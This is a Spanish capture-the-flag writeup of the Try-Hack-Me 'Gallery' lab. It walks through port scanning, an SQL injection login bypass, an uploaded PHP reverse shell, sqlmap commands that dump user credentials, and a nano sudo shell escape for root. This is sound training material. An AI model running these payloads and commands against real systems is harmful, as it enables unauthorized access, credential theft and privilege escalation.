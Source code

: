 ```yaml
---
title: "Gallery Writeup - Try-Hack-Me"
date: 2023-10-20
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\Gallery.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Gallery banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.42 seconds
```

### Ports: 80/htto - 8080/http

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20240112205004.png)

### Fuzzing con gobuster
![img](/assets/img/imagenes/Pasted image 20240112205902.png)
vamos a analizar el subdominio /gallery

### login
![img](/assets/img/imagenes/Pasted image 20240112210033.png)

###### vamos a intentar varias credenciales por defecto y tambien inyecciones sqli
payload inyeccion sqli
```python
admin'OR 1=1-- -
```

### tenemos acceso a la pag web
![img](/assets/img/imagenes/Pasted image 20240112210533.png)

###### en el apartado de albums podemos ver una opcion para cargar archivos lo que podriamos utilizar para intentar cargar un archivo php que contenga una reverse shell
![img](/assets/img/imagenes/Pasted image 20240112212006.png)
la rever shell ha funcionado tenemos conexion a la maquina

### movimiento lateral. 
![img](/assets/img/imagenes/Pasted image 20240112212241.png)

###### navegando por la maquina hemos conseguido un archivo backups del usuario mike en el cual tenemos permisos de lectura sobre el archivo .bash_history y dentro podemos ver que el usuario mike en algun momento proporciono su clave de super usuario asi que vamos a capturarla para convertirnos en el usuario mike

### analizando la maquina podemos ver que tenemos una base de datos
![img](/assets/img/imagenes/Pasted image 20240112220052.png)
usaremos sqlmap para enumerar esta base de datos

### sqlmap 

```python
sqlmap -r phpid.txt --dbs
```
necesitamos interceptar alguna peticion con el burpsuite para poder conseguir la phpsessionid

![img](/assets/img/imagenes/Pasted image 20240112222715.png)
ya tenemos el nombre de la base de datos. ahora vamos a enumerarla

```python
sqlmap -r phpid.txt -D gallery_db --tables
```
hemos enumerado las tablas de la base de datos. la tabla de users parece interesanta asi que vamos a echar un vistazo 
![img](/assets/img/imagenes/Pasted image 20240112223302.png)

ahora vamos a enumerar la tabla de usuarios 

```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users
```

![img](/assets/img/imagenes/Pasted image 20240112223801.png)

ahora vamos a enumerar las columnas de password y username
```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users -C username,password --dump
```

![img](/assets/img/imagenes/Pasted image 20240112224808.png)
tenemos credenciales del usuario admin

### Escalada de privilegios
![img](/assets/img/imagenes/Pasted image 20240112230108.png)
el usuario mike tiene permisos root para el script rootkit.sh usaremos esto para escalar privilegios

### script: el archivo tiene 4 variables. pero lo mas importante es que nos permite usar nano como root. usaremos esto para escalar privilegios
![img](/assets/img/imagenes/Pasted image 20240112230528.png)

usaremos la opcion numero 4 (read) esto nos permite editar el archivo 
![img](/assets/img/imagenes/Pasted image 20240112231008.png)

usaremos este comando con nano para lograr la escalada 
```python
nano
- Ctrl^R 
- reset; sh 1>&0 2>&0
- Ctrl^X
```

![img](/assets/img/imagenes/Pasted image 20240112231326.png)
### WE ARE ROOT
